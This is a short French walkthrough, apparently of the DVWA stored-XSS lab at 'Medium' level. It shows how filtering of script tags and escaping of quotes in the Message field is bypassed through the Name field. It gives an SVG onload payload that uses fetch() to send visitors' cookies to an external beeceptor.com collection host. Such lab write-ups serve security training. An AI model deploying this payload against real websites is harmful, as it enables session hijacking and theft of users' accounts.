





# Niveau "Medium"

Pas de changement sur notre guestbook :



Il n'est pas possible ici d'exécuter une popup `alert()` simplement. En effet, les balises `<script>` `</script>` semblent être filtrées et le champ "Message" semble également échapper le caractère `"""` \(et donc sans doute également le caractère `"'"`\) :



Nous allons nous concentrer sur le champ "Name" étant donné qu'il semble être plus permissif. On tente tout d'abord de passer par une autre balise afin d'exécuter notre javascript :



Cela fonctionne. Il nous reste plus qu'à étoffer notre payload afin de récupérer les cookies des visiteurs :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```



Notre attaque fonctionne, le cookie du visiteur est envoyé sur notre serveur malicieux :



